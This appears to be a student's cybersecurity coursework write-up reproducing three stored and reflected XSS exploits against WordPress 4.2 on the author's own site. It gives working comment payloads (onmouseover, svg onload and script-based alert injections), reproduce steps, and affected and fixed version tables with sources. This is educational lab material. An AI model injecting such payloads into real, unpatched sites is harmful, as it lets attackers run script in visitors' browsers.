 # cybersecurityweek7-8
Time spent total: 8 hours in total
## Exploit 1 - Persistent XSS Vulnerability in WordPress
How to reproduce:

1. This is in WordPress version 4.2.
2. Paste the following as a comment on a post:
```
<a href='/wp-admin/' title="" style="position:absolute;top:0;left:0;width:100%;height:100%;display:block;" onmouseover=alert(1)//'>Test</a>
```
3. The comment will look blank.
4. An alert will pop up with the message 1.
>Sources\
[Source 1](http://blog.sucuri.net/2015/08/persistent-xss-vulnerability-in-wordpress-explained.html)

This is an XSS Attack which is fixed in WordPress version 4.2.4.

Below is a gif of me doing the exploit on my own WordPress site.
![GIF](https://imgur.com/UfFwyK3.gif)

## Exploit 2 - Authenticated Cross-Site Scripting
How to reproduce:

1. This is in WordPress version 4.2.
2. Paste the following as a comment on a post:
```
http://www.example.com/wp-admin/customize.php?theme=<svg onload=alert(1)>
```
or
```
http://www.example.com/wp-admin/customize.php?theme=<svg onload=alert("error")>
```
3. You should see a comment with a hyperlink and the alert should pop up as well.
4. Interestingly if your comment has spaces, it will not show up as an alert. But it will still show up as an incomplete hyperlink in the comments.

>Sources\
[Source 1](https://github.com/WordPress/WordPress/commit/7ab65139c6838910426567849c7abed723932b87)\
[Source 2](https://wpvulndb.com/vulnerabilities/8358)

This is an XSS Attack which affects versions 3.7 to 4.2.5 and fixed in 4.2.6, it also appears in 4.3 to 4.3.1 and fixed in 4.3.2 and appears in 4.4 and fixed in 4.4.1. (See Source 2 for details)

Below is a gif of me doing the exploit on my own WordPress site.
![GIF](https://i.imgur.com/jfXKxLg.gif)

## Exploit 3 - 
How to reproduce:

1. This is in WordPress version 4.2.
2. Paste the following as a comment on a post:
```
<button onclick="fire()">Click</button>
<script>
function fire() {
 open('javascript:alert(1)');
}
</script>
```
or
```
<button onclick="fire()">Download</button>
<script>
function fire() {
 open('javascript:alert(Virus)');
}
</script>
```
3. Click on the button.
4. A new tab should open up along with the alert.

This is an XSS attack it affects the following versions

Affected|Fixed In
--------|--------
3.7-3.7.13|3.7.14
3.8-3.8.13|3.8.14
3.9-3.9.11|3.9.12
4.0-4.1.10|4.1.11
4.2-4.2.7|4.2.8
4.3-4.3.3|4.3.4
4.4-4.4.2|4.4.3
4.5-4.5.1|4.5.2

>Sources\
[Source 1](https://wordpress.org/news/2016/05/wordpress-4-5-2/)\
[Source 2](https://wpvulndb.com/vulnerabilities/8489)

Below is a gif of me doing the exploit on my own WordPress site.
![GIF](https://i.imgur.com/x9hEU5l.gif)
